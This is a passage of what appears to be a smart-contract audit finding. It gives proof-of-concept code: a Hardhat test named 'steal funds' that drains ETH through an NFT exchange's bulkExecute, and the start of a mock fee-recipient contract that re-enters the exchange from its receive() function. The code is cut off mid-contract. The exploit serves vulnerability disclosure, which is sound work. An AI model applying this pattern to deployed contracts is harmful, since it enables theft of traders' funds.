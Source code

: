 ```
        buy = generateOrder(bob, { 
          side: Side.Buy,
          tokenId,
          paymentToken: ZERO_ADDRESS});
        _executions.push({
            sell: await sell.packNoOracleSig(),
            buy: await buy.packNoSigs(),
        });
        // create 3 more executions
        tokenId += 1;
        for (let i = tokenId; i < tokenId + 3; i++) {
          await mockERC721.mint(thirdParty.address, i);
          const _sell = generateOrder(thirdParty, {
            side: Side.Sell,
            tokenId: i,
            paymentToken: ZERO_ADDRESS,
          });
          const _buy = generateOrder(bob, {
            side: Side.Buy,
            tokenId: i,
            paymentToken: ZERO_ADDRESS,
          });
          _executions.push({
            sell: await _sell.packNoOracleSig(),
            buy: await _buy.packNoSigs(),
          });
        }
        executions = _executions;
      });
      it("steal funds", async () => {
        let aliceBalanceBefore = await alice.getBalance();
        //price = 4 ETH
        value = price.mul(4);
        //call bulkExecute
        tx = await waitForTx(
          exchange.connect(bob).bulkExecute(executions, { value  }));
        let aliceBalanceAfter = await alice.getBalance();
        let aliceEarned = aliceBalanceAfter.sub(aliceBalanceBefore);
        //check that alice received all 4 ETH
        expect(aliceEarned).to.equal(value);
      });
    });
```

Add the following contract to mocks folder:<br>
`MockFeeRecipient.sol`:
```
pragma solidity 0.8.17;

import { Exchange } from "../Exchange.sol";
import { Execution } from "../lib/OrderStructs.sol";

contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;

    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
```